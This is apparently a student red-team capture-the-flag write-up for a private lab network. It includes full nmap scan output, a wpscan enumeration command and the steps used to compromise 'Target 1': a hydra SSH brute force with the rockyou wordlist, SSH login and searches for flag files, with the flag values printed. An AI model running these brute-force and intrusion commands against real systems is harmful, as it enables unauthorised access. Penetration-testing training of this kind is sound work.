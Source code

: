 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```
bash
$ nmap -sV 192.168.1.0/24
  # Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-28 16:19 PDT
Nmap scan report for 192.168.1.1
Host is up (0.00069s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.00076s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00080s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.0017s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.0000080s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 28.83 seconds
```

This scan identifies the services below as potential points of entry:

- Target 1
  - 22/tcp ssh        
  - 80/tcp http

The following vulnerabilities were identified on each target:

- Target 1
  - Port 22 was opening allowing an attacker to SSH into the server.
  - Port 80 was open allowing unsecure connections to the web application.
  - The wordpress user 'michael' has a simple password.
  - The web server is vulnerable to brute force attacks.
  - The mySQL username and password is stored in plain text.
  - The user 'steven' requires no password to run commands in the python library. This allows for privilege escalation by generating a shell using python.

 - Scan Used
  - wpscan --url http://192.168.1.110/wordpress --enumerate

![](wps1.png)
![](wps2.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1
  - `flag1.txt`: _b9bbcb33e11b80be759c4e844862482d_
    - **Exploit Used**
      - Use hydra to brute force the password for user 'michael'.
        - ```hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh```
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Navigate to the website directory
        - ```cd /var/www/html/```
      - Use grep to find the flag in the html files.
        - ```grep -E flag*. *.html```

  - `flag2.txt`: _fc3fd58dcdad9ab23faca6e9a36e581c_
    - **Exploit Used**
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Use find command to search for flags.
        - ```find . -name flag*```
